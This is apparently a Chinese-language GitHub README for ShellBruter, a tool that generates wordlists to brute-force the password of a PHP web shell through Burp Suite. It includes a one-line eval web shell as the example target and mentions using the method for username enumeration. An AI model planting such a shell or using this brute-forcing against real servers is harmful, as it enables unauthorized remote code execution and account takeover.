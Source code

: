 # ShellBruter
WebShell高效爆破字典生成

![](https://raw.githubusercontent.com/r00tSe7en/pictures/master/2020.03.23/0.png)

爆破思路参考：

https://www.t00ls.net/thread-36985-1-1.html 

这里不继续用python写请求的原因是感觉让burp处理这些会更好（懒）

使用示例：

假设当前shell为：

```php
<?php @eval($_POST[a]);?>
```

1）burp加载生成的爆破字典[echo增加了双引号，懒得换图了。。]

![](https://raw.githubusercontent.com/r00tSe7en/pictures/master/2020.03.23/1.png)

2）关闭URL编码（很重要）

![](https://raw.githubusercontent.com/r00tSe7en/pictures/master/2020.03.23/2.png)

3）得到结果

![](https://raw.githubusercontent.com/r00tSe7en/pictures/master/2020.03.23/3.png)

![](https://raw.githubusercontent.com/r00tSe7en/pictures/master/2020.03.23/4.png)

此方法可灵活使用，在用户名枚举上也有奇效（二分法），其余可自由发挥。
